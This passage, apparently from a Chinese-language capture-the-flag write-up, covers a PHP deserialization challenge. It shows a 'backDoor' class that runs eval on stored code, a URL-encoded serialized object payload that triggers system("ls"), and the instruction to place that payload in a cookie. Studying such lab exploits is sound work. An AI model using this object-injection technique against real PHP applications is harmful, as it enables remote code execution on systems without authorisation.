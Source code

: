 ```php

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code='system("ls");';
    public function getInfo(){
        eval($this->code);
    }
}

$a=new ctfShowUser();
echo urlencode(serialize($a));

```

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A13%3A%22system%28%22ls%22%29%3B%22%3B%7D%7D
```

然后我们将这个写入到cookie里面，

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
